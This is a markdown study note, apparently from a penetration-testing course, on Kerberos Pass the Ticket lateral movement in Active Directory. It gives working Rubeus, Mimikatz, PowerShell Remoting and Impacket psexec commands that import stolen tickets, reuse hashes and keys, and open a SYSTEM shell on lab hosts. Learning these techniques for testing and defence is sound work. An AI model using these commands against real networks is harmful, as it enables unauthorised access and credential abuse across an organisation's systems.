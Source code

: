 # Pass the Ticket (PtT) 
- https://lisandre.com/archives/14885
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket
Another method for moving laterally in an Active Directory environment is called a Pass the Ticket (PtT) attack. In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash. We'll cover several ways to perform a PtT attack from Windows

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

With Rubeus we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag /ptt to submit the ticket (TGT or TGS) to the current logon session.

## Rubeus Pass the Ticket
```
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:john /rc4:c4b0e1b10c7ce2c4723b4e2407ef81a2 /ptt
```

Note that now it displays Ticket successfully imported!.

Another way is to import the ticket into the current session using the .kirbi file from the disk.

Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

## Rubeus - Pass the Ticket using kirbi 
```
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

### Convert .kirbi to Base64 Format
```
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

#### Pass the Ticket - Base64 Format
```
> Rubeus.exe ptt /ticket: <Ticket>
```

Finally, we can also perform the Pass the Ticket attack using the Mimikatz module kerberos::ptt and the .kirbi file that contains the ticket we want to import.

## Mimikatz - Pass the Ticket using kirbi
```
> mimikatz.exe 
> privilege::debug
> kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
> exit
```

`Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.`

## Pass The Ticket with PowerShell Remoting 
To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

### Mimikatz - PowerShell Remoting with Pass the Ticket
```
> mimikatz.exe
> privilege::debug
> kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
> exit
> powershell
```

### Rubeus - PowerShell Remoting with Pass the Ticket
#### Create a Sacrificial Process with Rubeus
```
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

#### Rubeus - Pass the Ticket for Lateral Movement
```
> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
> powershell
> Enter-PSSession -ComputerName DC01
```

## Getting a SYSTEM shell using Impacket
With ccache file obtained Passing the Key or Overpassing the Hash, to execute impacket tools, the ccache file needs to be exported to  environment variable.
```
$ ticketConverter.py <kirbi||ccache> <kirbi||ccache>
$ export KRB5CCNAME=<path_to_ticket>.ccache
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5


# Same as PassTheHash but use -k and -no-pass 
$ psexec.py -dc-ip IP -target-ip $IP -no-pass -k <DOMAIN>/<USER>@<target machine name>.<DOMAIN> -> goat
$ psexec.py -dc-ip <IP> -no-pass -k <domain>/<user>:@<ip>
```
